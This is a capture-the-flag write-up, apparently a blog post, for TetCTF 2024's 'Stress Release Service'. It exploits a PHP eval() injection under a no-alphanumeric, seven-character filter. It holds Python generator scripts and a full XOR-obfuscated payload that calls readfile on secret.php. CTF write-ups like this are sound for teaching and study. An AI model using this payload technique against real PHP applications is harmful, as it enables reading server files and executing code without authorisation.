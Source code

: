 
The challenge presented in this write-up originates from the TetCTF (Capture the Flag) cybersecurity competition held in 2024. Specifically, it pertains to a challenge titled “Stress Release Service” included in said CTF event. Let’s start by seeing the challenge description:

![Challenge description](https://miro.medium.com/v2/resize:fit:734/1*R8F-d5NNkFE-aFVF442k1Q.png)

Well, an initial review of the descriptive text does not reveal overt clues to approaching or solving it. Proceeding with the analysis, the next logical step is to examine the webpage associated with the challenge, as well as the accompanying source code that has been provided.

![](https://miro.medium.com/v2/resize:fit:875/1*VKfJnVnTeCcr6LNkl6vuDQ.png)

Just a simple webpage, nothing but a textbox with a shout button.

Proceeding with evaluation of the accompanying source code, we find two PHP scripts —  _index.php_  and  _secret.php_. _secret.php_ contains the flag in a variable and thus it isn’t directly accessible. Thus we need a way to read  _secret.php_  from  _index.php_

![](https://miro.medium.com/v2/resize:fit:875/1*Z5fLlaq3q6pwVBIQKZ83TQ.png)

Moving on to  _index.php_  .. there is something special.

![](https://miro.medium.com/v2/resize:fit:875/1*RFddMZ43kHcA_vXgZflFUA.png)

The source code reveals that text entered into the “shout” input field is passed to a PHP eval() function after first undergoing validation checks. In essence, the application dynamically evaluates unsafe PHP code pieced together like so:

$res='some_garbage_text_here $voice some_more_garbage';

where  `$voice`  is controlled by us.

First let’s take a glance at the validations and restrictions that we have:

![](https://miro.medium.com/v2/resize:fit:875/1*zCO7b723EryQ4zjGqJl1Cg.png)

So we can’t have any alphabets or numbers. Moreover, we can only have at most 7 distinct characters. At first glance this appears to significantly restrict the exploitability of the eval() vulnerability. However, tools exist which facilitate crafting obfuscated PHP payloads while conforming to such character restrictions — for example, PhpFk ([https://b-viguier.github.io/PhpFk/](https://b-viguier.github.io/PhpFk/)) , PHPFun ([https://lebr0nli.github.io/PHPFun/](https://lebr0nli.github.io/PHPFun/)), and PHPFuck ([https://splitline.github.io/PHPFuck)/](https://splitline.github.io/PHPFuck/). These applications can encode functional PHP scripts using a very limited set of non-alpha-numeric characters.

What other limitations do we have?

![](https://miro.medium.com/v2/resize:fit:875/1*OWdJ48lRLGOSv5BX6JX78w.png)

Total length of the payload (actucally the  `res`variable) including the garbage should be less than 300? Nah. it’s just a scam, this check is happening after the eval which makes no sense (you can just print from inside the eval).

Alright, we’re ready to start putting together the payload to hack this thing. I’ll build it step-by-step assuming you’re not familiar with obfuscated PHP code. That way you can follow along even if you don’t have much experience messing with this crazy looking “brainfucked” PHP. The basic idea is that we can scramble PHP in a way that it still works fine, but looks totally wild and confusing at first glance.

Alright, first things first — let’s not worry about the rules on what characters we can use yet. We’ll deal with that later. For now, we’ve got a place in the code where what we type into that shout box gets evaluated as actual PHP code. So in basic terms, the following PHP code is evaluated.

$res='some_garbage_text_here $voice some_more_garbage';

Now, we need to escape the single quotes, otherwise whatever we write will just be assigned as a string to the $res variable. Then I will be using  `readfile`  function to read  _secret.php_ directly into the output stream. Thus,

$voice = "'.readfile('secret.php').'"

will result into

$res = 'some_garbage_text_here '.readfile('secret.php').' some_more_garbage';

which will display the file  _secret.php_  along with the flag. But alphanumeric characters are not allowed!

PHPFuck and PHPFun work only on PHP 7 but here we have PHP 8.3 so they both are out of question.

PhpF**k got me scared by the size of their  _hello world_ program  [https://b-viguier.github.io/PhpFk/hello_world_6.html](https://b-viguier.github.io/PhpFk/hello_world_6.html)

So the script kiddie inside me stopped and thought that now it’s time for some manual work!

Okay, so you might be wondering — how can we actually run  `readfile`  if we can’t use the normal function syntax (since alpha numerics are blocked)? Excellent question!

Here’s the cool PHP trick: you can execute a function by calling it as a string, like this — `'function_name'()`. See what I did there? By surrounding the name in quotes and adding parentheses, it basically tells PHP “hey, treat this string as a function and run it!” Pretty nifty, right?

So for us, all we need to do is use that technique:  `'readfile'('secret.php')`

Adding the single quote escaping, final payload will be  `'.'readfile'('secret.php').'`

Now, we just need to get these 2 strings ‘readfile’ and ‘secret.php’. Let’s generate some characters and concatenate them!

So it is all about generating different characters and I will be using XOR (^) operation for that. Currently, we are using  `'`to escape and inject,  `(`and  `)`for function calls,  `.`for concatenation and  `^`for XORing. These are 5 characters, we can still have 2 more. I will be using  `\`and  `;`. I bet this can probably be done in 6 characters.

I have made a simple python script which enumerates all the characters that we can make by only XOR operation.
```
avail = """.()'^;\\"""  
  
got = {}  
  
for i in range(1, 7):  
    for comb in itertools.combinations(avail, i):  
        ans = 0  
        for x in comb:  
            ans = ans ^ ord(x)  
          
        if chr(ans) in string.printable:  
            got[chr(ans)] = comb  
  
  
for p in got:  
    print(p, got[p])
```
```
p ('.', '^')  
r ('.', '\\')  
v ('(', '^')  
t ('(', '\\')  
w (')', '^')  
u (')', '\\')  
y ("'", '^')  
{ ("'", '\\')  
e ('^', ';')  
g (';', '\\') 
...  
O ('(', ';', '\\')  
P (')', "'", '^')  
5 (')', "'", ';')  
R (')', "'", '\\')  
L (')', '^', ';')  
...
```
It’s the trimmed output it gives, which means you can get the character  `p`by XORing  `.`and  `^`  .. similarly you can get  `R`  by XORing  `)`  ,  `'`  and  `\`

We will now just replace each of the term here by their character representation and concatenate them
```Python
def generate(s: str):  
    ans = ""  
    for x in s:  
        if x in got:  
            f = "("  
            for c in got[x]:  
                if f[-1] != "(":  
                    f += "^"  
                if c == "'":  
                    f += "'\\''"  
                elif c == "\\":  
                    f += "'\\\\'"  
                else:  
                    f += f"'{c}'"  
            f += ")"  
            if len(ans) > 0:  
                ans += "."  
            ans += f  
  
    return ans  
  
payload = f"'.({generate('readfile')})({generate('secret.php')}).'"  
  
print(payload)
```
Thus resulting in the final payload below:

'.(('.'^'\\').('^'^';').('.'^'('^';'^'\\').('('^')'^'^'^';').('('^')'^';'^'\\').(')'^'\''^';'^'\\').('.'^'\''^'^'^';').('^'^';'))(('.'^'('^')'^'\\').('^'^';').('.'^'('^'^'^';').('.'^'\\').('^'^';').('('^'\\').('.').('.'^'^').('('^'\''^';'^'\\').('.'^'^')).'

![](https://miro.medium.com/v2/resize:fit:875/1*RPDVRgdi-3KsJ6K2FDEbLQ.png)

![](https://miro.medium.com/v2/resize:fit:875/1*oro3VJLJyPvppqkQEWGfvQ.png)

Here we have the flag!!